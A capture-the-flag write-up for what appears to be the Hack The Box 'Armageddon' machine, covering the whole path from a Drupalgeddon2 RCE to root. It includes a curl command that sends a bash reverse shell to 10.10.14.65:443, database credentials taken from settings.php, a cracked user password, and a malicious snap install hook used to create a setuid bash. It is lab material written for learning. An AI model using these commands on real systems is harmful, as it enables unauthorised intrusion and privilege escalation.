 1, port scan and web-content enumeration
22/tcp ssh
80/tcp http

By fuzzing the web-content, we can get many interesting urls.

![](images/Pasted%20image%2020240818095444.png)

`/robots.txt  /web.config /xmlrpc.php /index.php'
These urls would be useful for us.

2,check web pages and resources.
(*1*), `/robots.txt
```
Let's check /LICENSE.txt and find some versions.(Very sad, I cannot find anything useful.)

/install.php we can get a hint: # Drupal already installed
So just check the service or versions.

/CHANGELOG.txt #Drupal 7.56, 2017-06-21
This further confirms our previous findings.

Then we can find the exploits :
#CVE-2018-7600 | Drupal 8.5.x < 8.5.1 / 8.4.x < 8.4.6 / 8.x < 8.3.9 / 7.x? < 7.58 / < 6.x? - 'Drupalgeddon2' RCE (SA-CORE-2018-002)

https://github.com/dreadlocked/Drupalgeddon2.git

This is a RCE vulnerablity.So let's try to use it.

```

3,get the user shell
We just need to run the exploit script, then we can get the apache shell (www-data)

Then we need to switch to the local user :`brucetherealadmin
```
#/etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
brucetherealadmin:x:1000:1000::/home/brucetherealadmin:/bin/bash

```

Before we enumerate the machine, we need to make a stable shell for us.
`curl -G --data-urlencode "c=bash -i >& /dev/tcp/10.10.14.65/443 0>&1" 'http://10.10.10.233/shell.php'`

Thus, let's enumerate the configurations and databases.

Then we can find a useful file `/var/www/html/sites/default/settings.php`
and we find the database password 
```
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);

```

Let's try it to shell as user but very sadly, we cannot login directly.

Come to enumerate the database 
`mysql -u drupaluser -p `
In this place, Because my shell is a not in a PTY, I’ll have to run DB commands from the command line. Drupal creates a bunch of tables:

`mysql -e 'show tables;' -u drupaluser -p'CQHEy@9M*m23gBVj' drupal`

`mysql -e 'select * from users;' -u drupaluser -p'CQHEy@9M*m23gBVj' drupal`

Finally, we get a credit
`brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt`

Then crack the password
	we can get `brucetherealadmin:booboo`

Then just ssh to get the user shell.

4, get the root shell
Firstly ,we can check `sudo -l`
```
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

To be honest, we can just find something useful from GTFOBins.

```
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

It runs commands using a specially crafted Snap package. Generate it with fpm and upload it to the target.

COMMAND=id
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
sudo snap install xxxx_1.0_all.snap --dangerous --devmode
```

```
The next step was to create the snap and download it onto the target box and install it. However, I ran into problems so I watched IppSec’s video >>HERE<< to guide me through it. First, on the target box, I copied /usr/bin/bash to /home/brucetherealadmin/bash.
```

`[brucetherealadmin@armageddon ~]$ cp /usr/bin/bash ~/bash`

Next, I modified the payload as shown below and executed it on my local system.
```
COMMAND="chown root:root /home/brucetherealadmin/bash; chmod 4755 /home/brucetherealadmin/bash"
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```


Finally, I downloaded the snap using cURL and installed it.

As you can see from the screenshot below, the snap was installed successfully. However, more importantly, it ran the command to change the ownership and permissions of the bash file. The file was now owned by root and had setuid set.
![](images/Pasted%20image%2020240818111718.png)

`./bash -p`

Then we can shell as root.